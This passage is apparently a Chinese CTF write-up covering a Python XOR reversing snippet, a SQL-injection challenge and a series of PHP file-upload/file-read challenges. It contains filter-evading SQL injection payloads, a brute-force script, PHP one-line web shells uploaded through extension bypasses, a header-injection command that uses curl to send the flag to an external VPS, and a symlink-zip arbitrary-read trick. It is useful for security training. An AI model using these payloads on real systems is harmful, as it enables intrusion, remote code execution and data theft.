secret = [7, 31, 56, 25, 23, 15, 91, 21, 49, 15, 33, 88, 26, 48, 60, 58, 4, 86, 36, 64, 23, 54, 63, 0, 54, 22, 6, 55, 59, 38, 108, 39, 45, 23, 102, 27, 11, 56, 32, 0, 82, 24]
key = "ez_python_xor_reverse"
encrypted = []
for i in range(len(secret)):
    encrypted.append(secret[i]^ord(key[i%len(key)]))
print(encrypted)
for i in list(map(chr,encrypted)):
    print(i,end='')
```


## WEB

### sql教学局

###### 第一段flag-pyaload

```
?user='/**/unioN/**/seleselectct/**/
(seselectlect/**/`3`/**/frfromom/**/
(sselectelect/**/1,2,3/**/union/**/
seselectlect/**/*/**/frfromom/**/
secret.passwoorrd)a/**/limit/**/1,1)/**/where/**/'1
```

###### 第二段flag(错误)-payload

```
?user='/**/unioN/**/seleselectct/**/grade
/**/frofromm/**/scoorre/**/where/**/'1
```

###### 第二段flag(正确)-payload

```
'/**/unioN/**/seleselectct/**/
(seselectlect/**/`1`/**/frfromom/**/
(sselectelect/**/1,2/**/union/**/
seselectlect/**/*/**/frfromom/**/scoorre/**/)
a/**/limit/**/354,1)/**/where/**/'1
```

###### 第二段-爆破脚本

```python
import requests
for i in range(10,500):
    res = requests.get(f"""
    http://101.32.220.189:31120/challenge.php?user=
    '/**/unioN/**/seleselectct/**/(seselectlect/**/`2`
    /**/frfromom/**/(sselectelect/**/1,2/**/union/**/
    seselectlect/**/*/**/frfromom/**/scoorre/**/)a/**/limit/**/{i},1)
    /**/where/**/'1
    """)
    html = res.text
    name = html.split('查询结果: ')[1].split('</div>')[0]  # 不想用正则
    print(name)
    if 'beg' in name:
        print(name,i)
        exit()
```

###### 第三段flag-payload

```
?user='/**/unioN/**/seleselectct/**/
loloadad_file('/flag')/**/where/**/'1
```

###### php部分代码

```php
<?php $host = 'localhost';
$username = 'root';
$password = 'root';
$database = 'ctf';
$conn = new mysqli($host, $username, $password, $database);
if ($conn->connect_error) {
    die("连接失败: " . $conn->connect_error);
}
$query = '';
$resultText = '';
function waf($input)
{
    if (preg_match('/regexp|left|floor|reverse|update|between|=|>|<|and|\|right|substr|replace|char|&|\\\$|sleep| /i', $input, $matches)) {
        return array(false, $matches[0]);
    } else {
        $pattern = "/(select|from|load|or)/i";
        $input = preg_replace($pattern, '', $input);
        return array(true, $input);
    }
}
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['user'])) {
    $wafOutput = waf($_GET['user']);
    if ($wafOutput[0] === false) {
        $resultText = "WAF!!!";
    }
}

```


### zupload
##### 题目

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] == 'GET') {
    if (!isset($_GET['action'])) {
        header('Location: /?action=upload');
        die();
    }
    die(file_get_contents($_GET['action']));
} else if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    echo json_encode(array(
        'status' => 'error',
        'message' => 'Not implemented yet'
    ));
}

```


##### 解题过程
file_get_contents 能直接读取文件
payload：`?action=file:///flag`


### zupload-pro

##### 题目
```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] == 'GET') {
    if (!isset($_GET['action'])) {
        header('Location: /?action=upload');
        die();
    }
    if ($_GET['action'][0] === '/' || strpos($_GET['action'], '..') !== false) {
        die('<h1>Invalid action</h1>');
    }
    die(file_get_contents($_GET['action']));
} else if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $file = $_FILES['file'];
    $file_name = $file['name'];
    $file_tmp = $file['tmp_name'];
    $file_size = $file['size'];
    $file_error = $file['error'];
    
    if ($file_error === 0) {
        if ($file_size <= 2097152) {
            $file_destination = 'uploads/' . $file_name;

            if (move_uploaded_file($file_tmp, $file_destination)) {
                echo json_encode(array(
                    'status' => 'ok',
                    'message' => 'File uploaded successfully',
                    'url' => preg_split('/\?/', $_SERVER['HTTP_REFERER'])[0] . $file_destination
                ));
            }
        }
    } else {
        echo json_encode(array(
            'status' => 'error',
            'message' => 'File upload failed'
        ));
    }
}

```

##### 解题过程
file_get_contents 能直接读取文件
payload：`?action=file:///flag`


file_get_contents 能直接读取文件
加了限制，但没啥用
`($_GET['action'][0] === '/' || strpos($_GET['action'], '..') !== false)`
如果参数 action 的第一个字符是斜杠 (/) 或者参数中包含双点 (..)，则条件成立

payload：`?action=file:///flag`


### zupload-pro-plus

##### 题目
```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] == 'GET') {
    if (!isset($_GET['action'])) {
        header('Location: /?action=upload');
        die();
    }
    if ($_GET['action'][0] === '/' || strpos($_GET['action'], '..') !== false) {
        die('<h1>Invalid action</h1>');
    }
    die(file_get_contents($_GET['action']));
} else if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $file = $_FILES['file'];
    $file_name = $file['name'];
    $file_tmp = $file['tmp_name'];
    $file_size = $file['size'];
    $file_error = $file['error'];
    
    $file_ext = explode('.', $file_name);
    $file_ext = strtolower($file_ext[1]);
    
    $allowed = array('zip');
    
    if (in_array($file_ext, $allowed)) {
        if ($file_error === 0) {
            if ($file_size <= 2097152) {
                $file_destination = 'uploads/' . $file_name;
    
                if (move_uploaded_file($file_tmp, $file_destination)) {
                    echo json_encode(array(
                        'status' => 'ok',
                        'message' => 'File uploaded successfully',
                        'url' => preg_split('/\?/', $_SERVER['HTTP_REFERER'])[0] . $file_destination
                    ));
                }
            }
        }
    } else {
        echo json_encode(array(
            'status' => 'error',
            'message' => 'Only zip files are allowed'
        ));
    }
}

```

##### 解题过程
file_get_contents 能直接读取文件
加了限制，但没啥用
`($_GET['action'][0] === '/' || strpos($_GET['action'], '..') !== false)`
如果参数 action 的第一个字符是斜杠 (/) 或者参数中包含双点 (..)，则条件成立
还加了个只能上传zip的限制，但没啥用

payload：`?action=file:///flag`


### zupload-pro-plus-enhanced

##### 解题过程

`($_GET['action'][0] === '/' || substr_count($_GET['action'], '/') > 1)`

 action 的第一个字符不能是斜杠 (/) 参数中只能有一个/ 

不能直接读取文件了

查看代码
```php
    $file_ext = explode('.', $file_name);
    $file_ext = strtolower($file_ext[1]);
    
    $allowed = array('zip');
```
这里，只对文件名以点切割，第2段进行判断.可以上传一句话，文件名为shell.zip.php

```php
<<<<<
----
<?php @eval ($_REQUEST ['cmd']);?>
```

有坑点的是这个有前端验证后缀（坑了我好久），

访问/uploads/shell.zip.php?cmd=system('cat /f*');
获得flag。


### zupload-pro-plus-max


##### 解题过程

`($_GET['action'][0] === '/' || substr_count($_GET['action'], '/') > 1)`

 action 的第一个字符不能是斜杠 (/) 参数中只能有一个/ 

不能直接读取文件

但是换成了`include($_GET['action'])`


查看代码
```php
    $file_ext = explode('.', $file_name);
    $file_ext = strtolower(end($file_ext));
    $allowed = array('zip');
```
这里，只对文件名以点切割，判断最后一位.可以上传，文件名为shell.zip

```php
<<<<<
----
<?php @eval ($_REQUEST ['cmd']);?>
```


访问?action=uploads/shell.zip?cmd=system('cat /f*');

获得flag。


### zupload-pro-plus-max-ultra

##### 解题过程

相比前面的代码，没什么漏洞，但是他添加了一个`exec('unzip ' . $file_tmp . ' -d ' . $extract_to);`
其中`$extract_to` 是可以通过`$_SERVER['HTTP_X_EXTRACT_TO']` 控制

只要在http的header中 添加
X-Extract-To: | curl x.x.x.x/?flag=`cat /f*`

在vps中开启http服务监听80端口，请求靶机后，靶机将flag携带进入vps中，

获得flag。

### zupload-pro-plus-max-ultra-premium

##### 解题过程

前面的exec 也被封堵了
唯一的变量也被escapeshellarg 了

发现代码对文件进行了解压操作

可以将软链接压缩，解压后还是软链接，访问文件，

```shell
ln -s /flag f.txt
zip -ry shell.zip f.txt
```

将制作的shell.zip上传，
下载/uploads/f.txt
就能获得flag。


### zupload-pro-revenge

##### 解题过程
file_get_contents 不能直接读取文件
加了限制，
`($_GET['action'][0] === '/' || substr_count($_GET['action'], '/') > 1)`


但是没有对上传的文件进行限制

可以上传一句话，文件名为shell.php

```php
<<<<<
----
<?php @eval ($_REQUEST ['cmd']);?>
```


访问/uploads/shell.php?cmd=system('cat /f*');

获得flag。


